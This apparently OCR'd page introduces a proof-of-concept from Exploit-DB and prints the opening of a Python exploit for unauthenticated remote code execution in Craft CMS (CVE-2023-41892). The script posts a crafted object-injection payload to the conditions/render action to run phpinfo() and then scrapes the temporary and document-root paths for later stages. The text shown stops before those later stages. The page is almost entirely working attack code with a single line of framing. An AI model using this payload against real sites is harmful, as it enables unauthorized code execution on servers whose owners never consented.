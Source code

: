 So, got the PoC from https://www.exploit-db.com/exploits/51918

```python
#!/usr/bin/env python3
#coding: utf-8

# Exploit Title: Craft CMS unauthenticated Remote Code Execution (RCE)
# Date: 2023-12-26
# Version: 4.0.0-RC1 - 4.4.14
# Vendor Homepage: https://craftcms.com/
# Software Link: https://github.com/craftcms/cms/releases/tag/4.4.14
# Tested on: Ubuntu 22.04.3 LTS
# Tested on: Craft CMS 4.4.14
# Exploit Author: Olivier Lasne
# CVE : CVE-2023-41892
# References :
# https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g
# https://blog.calif.io/p/craftcms-rce

import requests
import sys, re

if(len(sys.argv) < 2):
    print(f"\033[1;96mUsage:\033[0m python {sys.argv[0]} \033[1;96m<url>\033[0m")
    exit()

HOST = sys.argv[1]

if not re.match('^https?://.*', HOST):
    print("\033[1;31m[-]\033[0m URL should start with http or https")
    exit()

print("\033[1;96m[+]\033[0m Executing phpinfo to extract some config infos")

## Execute phpinfo() and extract config info from the website
url = HOST + '/index.php'
content_type = {'Content-Type': 'application/x-www-form-urlencoded'}

data = r'action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()":[{"close":null}],"_fn_close":"phpinfo"}}'

try:
    r = requests.post(url, headers=content_type, data=data)
except:
    print(f"\033[1;31m[-]\033[0m Could not connect to {HOST}")
    exit()

# If we succeed, we should have default phpinfo credits 
if not 'PHP Group' in r.text:
	print(f'\033[1;31m[-]\033[0m {HOST} is not exploitable.')
	exit()


# Extract config value for tmp_dir and document_root
pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'

tmp_dir       = re.search(pattern1, r.text, re.DOTALL).group(1)
document_root = re.search(pattern2, r.text, re.DOTALL).group(1)


```